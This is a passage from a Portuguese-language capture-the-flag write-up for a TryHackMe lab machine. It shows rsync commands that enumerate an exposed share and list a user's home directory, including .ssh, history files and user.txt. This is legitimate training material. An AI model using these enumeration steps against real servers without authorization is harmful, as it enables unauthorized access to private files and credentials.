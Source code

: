 ![alt text](/assets/img/internal/internal4.png)
### Conectando no rsync

```shell
╭─      ~/thm/vulnNetinternal        
╰─ rsync --list-only rsync://10.10.141.166
files           Necessary home interaction
╭─      ~/thm/vulnNetinternal    
╰─ rsync --list-only rsync://rsync-connect@10.10.141.166/files
Password: 
drwxr-xr-x          4,096 2021/02/01 09:51:14 .
drwxr-xr-x          4,096 2021/02/06 09:49:29 sys-internal
╰─ rsync --list-only rsync://rsync-connect@10.10.141.166/files/sys-internal/
Password: 
drwxr-xr-x          4,096 2021/02/06 09:49:29 .
-rw-------             61 2021/02/06 09:49:28 .Xauthority
lrwxrwxrwx              9 2021/02/01 10:33:19 .bash_history
-rw-r--r--            220 2021/02/01 09:51:14 .bash_logout
-rw-r--r--          3,771 2021/02/01 09:51:14 .bashrc
-rw-r--r--             26 2021/02/01 09:53:18 .dmrc
-rw-r--r--            807 2021/02/01 09:51:14 .profile
lrwxrwxrwx              9 2021/02/02 11:12:29 .rediscli_history
-rw-r--r--              0 2021/02/01 09:54:03 .sudo_as_admin_successful
-rw-r--r--             14 2018/02/12 17:09:01 .xscreensaver
-rw-------          2,546 2021/02/06 09:49:35 .xsession-errors
-rw-------          2,546 2021/02/06 08:40:13 .xsession-errors.old
-rw-------             38 2021/02/06 08:54:25 user.txt
drwxrwxr-x          4,096 2021/02/02 06:23:00 .cache
drwxrwxr-x          4,096 2021/02/01 09:53:57 .config
drwx------          4,096 2021/02/01 09:53:19 .dbus
drwx------          4,096 2021/02/01 09:53:18 .gnupg
drwxrwxr-x          4,096 2021/02/01 09:53:22 .local
drwx------          4,096 2021/02/01 10:37:15 .mozilla
drwxrwxr-x          4,096 2021/02/06 08:43:14 .ssh
drwx------          4,096 2021/02/02 08:16:16 .thumbnails
drwx------          4,096 2021/02/01 09:53:21 Desktop
drwxr-xr-x          4,096 2021/02/01 09:53:22 Documents
drwxr-xr-x          4,096 2021/02/01 10:46:46 Downloads
drwxr-xr-x          4,096 2021/02/01 09:53:22 Music
drwxr-xr-x          4,096 2021/02/01 09:53:22 Pictures
drwxr-xr-x          4,096 2021/02/01 09:53:22 Public
drwxr-xr-x          4,096 2021/02/01 09:53:22 Templates
drwxr-xr-x          4,096 2021/02/01 09:53:22 Videos
```
{: .nolineno }
